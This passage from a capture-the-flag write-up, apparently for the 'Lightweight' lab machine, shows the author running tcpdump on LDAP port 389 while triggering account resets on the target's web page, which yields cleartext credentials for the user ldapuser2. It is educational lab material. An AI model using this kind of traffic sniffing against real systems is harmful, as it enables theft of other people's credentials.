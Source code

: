 I check with `md5sum` the integrity of the transferred file and then with `wireshark` I will analyze the packets. Of all the captured packets I do not find much information that allows me to understand some attack vector or even to continue enumerating, there are many related to the **SSH** service but not to **LDAP**. If I capture with `tcpdump` packets exclusively from port **22** there is traffic but not from **LDAP** port **389**.

> **Victime Machine**:

```bash
md5sum capture.cap
```

> **Attacker Machine**:

```bash
md5sum capture.cap

wireshark capture.cap &>/dev/null
# ldap :(

tcpdump -i any -w capture.cap -v "port 22"
tcpdump -i any -w capture.cap -v "port 389"
# :(
```

<br />
<img src="{{ site.img_path }}/lightweight_writeup/Lightweight_17.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lightweight_writeup/Lightweight_18.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lightweight_writeup/Lightweight_19.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lightweight_writeup/Lightweight_20.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lightweight_writeup/Lightweight_21.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

After a while of rethinking what I am overlooking, I remember the information messages on the web page and more precisely the **account reset**, maybe I should perform actions on the web so I can capture **LDAP** related traffic, since this protocol is related to account management (**among many other tasks**). I start capturing packets with `tcpdump` (from port **389** specifically) using some parameters to get the information in a readable format and perform actions on the web, after a while I can get information in my shell and finally some credentials of the user **ldapuser2**.

```bash
tcpdump -i any -w capture.cap -v "port 389"
# :)

man tcpdump
# -n            Don't convert addresses (i.e., host addresses, port numbers, etc.) to names.
# -s snaplen    Snarf  snaplen bytes of data from each packet rather than the default of 262144 bytes.
# -X            When parsing and printing, in addition to printing the headers of each packet, print the data of each packet (minus its link level header) in hex and ASCII.

tcpdump -i lo -nnXs 0 'port 389'
# :)
```
